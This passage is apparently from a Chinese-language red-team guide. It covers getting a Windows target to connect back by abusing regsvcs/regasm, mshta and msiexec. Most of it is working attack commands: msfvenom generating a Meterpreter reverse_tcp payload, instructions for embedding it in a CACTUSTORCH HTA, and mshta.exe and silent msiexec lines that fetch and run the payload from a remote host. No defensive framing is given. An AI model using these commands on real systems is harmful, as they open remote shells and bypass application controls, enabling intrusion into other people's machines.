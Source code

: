 ```bash
sn -k key.snk
```

编译dll，注意文件的路径

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:1.dll /keyfile:key.snk regsvcs.cs
```
用这两者上线

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe 1.dll 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe 1.dll
```
或者这样

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U 1.dll 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U 1.dll
```

上线成功。

## mshta

mshta是在环境变量里的

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 ‐f raw > shellcode.bin
```

```bash
cat shellcode.bin |base64 ‐w 0
```

然后替换这个文件中的shellcode

https://raw.githubusercontent.com/mdsecactivebreach/CACTUSTORCH/master/CACTUSTORCH.hta

替换`' ---------- DO NOT EDIT BELOW HERE -----------`上面引号包起来的base64，可以将hta托管出来。

```bash
mshta.exe http://baidu.com/shellcode.hta
```

在cobalt strike中mshta也是一个很方便的上线功能。

## Msiexec简介：

Msiexec 是 Windows Installer 的一部分。用于安装 Windows Installer 安装包（MSI）,一般在运行 Microsoft Update 安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于 Windows 2003，Windows 7 等。

Msiexec已经被添加到环境变量了。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 ‐f msi > shellcode.txt
```

目标机执行
```bash
msiexec.exe /q /i http://172.16.1.130/shellcode.txt
```

